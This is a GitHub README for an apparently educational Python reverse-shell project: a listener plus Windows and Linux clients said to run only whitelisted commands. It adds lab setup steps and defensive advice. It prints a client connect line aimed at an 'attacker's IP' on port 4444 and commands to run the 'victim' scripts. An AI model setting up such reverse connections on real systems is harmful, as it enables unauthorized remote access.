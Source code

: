 <!-- Badges (replace with real links if desired) -->

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](#license)
[![Language: Python](https://img.shields.io/badge/Language-Python-green.svg)](#project-structure)
[![Status: Educational](https://img.shields.io/badge/Status-Educational-orange.svg)](#abstract)

# 🐍 Webixly Reverse Shell — Educational Cybersecurity Project

**Author:** Aymen (Webixly)
**Repository:** Webixly-Reverce
**License:** MIT (see `LICENSE`)

---

## 📚 Table of Contents

1. [Abstract](#abstract)
2. [Overview](#overview)
3. [Project Structure](#project-structure)
4. [Design & Implementation](#design--implementation)
5. [Configuration (CHANGE IP)](#configuration-change-ip)
6. [Usage (Lab / Controlled Environment Only)](#usage-lab--controlled-environment-only)
7. [Defensive Guidance](#defensive-guidance)
8. [Academic & Ethical Considerations](#academic--ethical-considerations)
9. [Contribution & Citation](#contribution--citation)
10. [License](#license)
11. [Contact](#contact)

---

## Abstract

This repository contains a safe, educational simulation of the *reverse shell* concept intended for academic use and cybersecurity instruction. The implementation demonstrates basic client–server network mechanics while intentionally limiting functionality to a small set of predefined, non-destructive commands. The objective is to help students and researchers understand reverse-connection patterns and to illustrate defensive practices to mitigate their misuse.

> ⚠️ **Warning:** This project is for authorized educational use only. Do **not** run or deploy these examples against systems or networks for which you do not have explicit permission. Unauthorized use is illegal and unethical.

---

## Overview

A *reverse shell* is a technique in which a target host initiates an outbound connection to an external listener, enabling command exchange over that channel. While used legitimately in penetration testing and red-team exercises, reverse shells are also abused by attackers. This repository models the connection pattern safely — the server executes only a whitelist of Python handlers (no arbitrary OS shell commands).

---

## Project Structure

```
.
├── LICENSE
├── README.md
├── listner.py             # Server-side command dispatcher (listener)
├── windows_reverce.py     # Example client for Windows (simulated)
├── linux_reverce.py       # Example client for Linux (simulated)
├── requirements.txt       # Optional dependencies (if any)
└── .gitignore
```

> 🔧 Adjust filenames above to match your repository if they differ.

---

## Design & Implementation

### Server (listener / `listner.py`)

* Listens for incoming TCP connections on a configurable address and port.
* Accepts JSON-formatted requests such as:

```json
{"token": "<auth-token>", "cmd": "time", "args": {}}
```

* Validates an authentication token (optional but recommended).
* Dispatches only to a predefined, safe set of handlers (e.g., `hello`, `time`, `sysinfo`).
* Uses newline-terminated JSON for message framing to avoid partial-read ambiguities.
* Logs events using a structured logger (recommended).

### Client (`windows_reverce.py`, `linux_reverce.py`, `client_example.py`)

* Establishes an outbound TCP connection to the configured listener.
* Sends framed JSON requests and reads framed JSON responses.
* Intended exclusively for demonstration in a controlled lab environment.

### Security Decisions

* **No arbitrary shell execution**: prevents the repository from becoming a fully functional remote shell.
* **Message framing & size checks**: prevent partial-read issues and limit resource consumption.
* **Optional TLS**: recommended for any use outside isolated labs (`ssl.wrap_socket` / `ssl.SSLContext`).
* **Authentication token**: recommended to prevent unauthorized access in multi-user networks.

---

## Configuration (CHANGE IP)

> 🔁 **Important:** Before running any client (victim) script, you **must** update the target listener IP address (`HOST`) and, if used, the `PORT`. Failure to set the correct listener IP will cause the client to attempt to connect to the wrong host.

Open the client script you intend to run (`windows_reverce.py`, `linux_reverce.py`, or `client_example.py`) and locate the `HOST`/`PORT` variables near the top of the file. Example:

```python
# windows_reverce.py (example snippet)
s.connect(("192.168.1.100", 4444))  #<<== Attacker's IP and Port 
```

**Steps**

1. Find the `HOST` variable and replace the placeholder with your listener/server IP (e.g., `192.168.10.128`).
2. Ensure `PORT` matches the port configured in `listner.py`.
3. Save the file and transfer it only to your controlled lab machine (if testing across VMs).

> 🔒 Tip: For lab automation, you can use environment variables instead of hardcoding:

```python
HOST = '192.168.10.128' # Attacker's IP address
PORT = 4444 # Attacker's listening port
```

This allows running:

```bash
REVERSE_HOST=192.168.10.128 REVERSE_PORT=4444 python3 windows_reverce.py
```

---

## Usage (Lab / Controlled Environment Only)

1. Create an isolated test environment (local VMs, isolated VLAN, or a single host with loopback testing).
2. Start the listener (on the host where `listner.py` runs):

```bash
python3 listner.py
```

3. On the test client machine (after updating `HOST` to point to the listener):

```bash

python3 windows_reverce.py
# or
python3 linux_reverce.py
```

> 🧪 Always operate within an environment you control. Do not run these scripts on production systems or public networks.

---

## Defensive Guidance

System administrators, students, and researchers should adopt the following controls to reduce the risk of reverse-shell exploitation:

* **Egress filtering:** restrict outbound connections by default; allow only required destinations and ports.
* **Host hardening:** enforce least privilege, disable interpreters where unnecessary, and use application allowlisting.
* **Network monitoring:** detect anomalous outbound connections (to uncommon ports or foreign hosts).
* **Endpoint detection:** use EDR/NDR solutions to identify process behaviors consistent with reverse shells.
* **Code review:** audit third-party and internal code for unsafe socket or subprocess usage.

---

## Academic & Ethical Considerations

This repository is intended for coursework, labs, and research under authorized conditions. Any unauthorized testing, scanning, or exploitation of systems you do not own or have permission to test is illegal. If you discover a vulnerability during legitimate testing, follow established responsible disclosure procedures.

---

## Contribution & Citation

Contributions that enhance the educational value (improved documentation, safe lab exercises, additional safe handlers) are welcome via issues or pull requests. If you cite this repository in academic work, please reference:

> A. (Aymen, Webixly), *Webixly Reverse Shell — Educational Cybersecurity Project*, GitHub repository, [https://github.com/webixly/Webixly-reverce](https://github.com/webixly/Webixly-reverce), 2025.

---

## License

This project is offered under the **MIT License**. See the `LICENSE` file for full terms.

---

## Contact

**Aymen (Webixly)**
GitHub: [https://github.com/webixly](https://github.com/webixly)
Email: [webiixly@gmail.com](mailto:webiixly@gmail.com)
